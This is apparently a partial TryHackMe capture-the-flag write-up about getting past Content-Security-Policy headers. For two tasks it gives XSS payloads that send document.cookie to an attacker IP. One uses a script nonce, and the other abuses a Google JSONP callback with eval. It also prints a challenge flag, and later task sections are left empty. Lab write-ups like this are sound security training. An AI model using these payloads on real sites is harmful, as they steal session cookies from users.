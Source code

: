 `Content-Security-Policy:	default-src 'none'; style-src * 'self'; script-src 'nonce-abcdef'`

## Payload

```
<script nonce="abcdef">document.location='http://10.8.107.21:8000/?c='+document.cookie;</script>
```

## Flag

```
THM{Style_Y0ur_W3bs1teS}
```

# Task 5

`Content-Security-Policy:	default-src 'none'; style-src 'self'; img-src *; script-src 'unsafe-eval' *.google.com`

We can look at JSONBee Github for payloads. `"><script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>`. And it works let's modify the payload.

## Payload

```
<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='http://10.8.107.21:8000/'.concat(document.cookie))"></script>
```

## Flag

```
```

# Task 6

``

## Payload

```
```

## Flag

```
```

# Task 7

``

## Payload

```
```

## Flag

```
```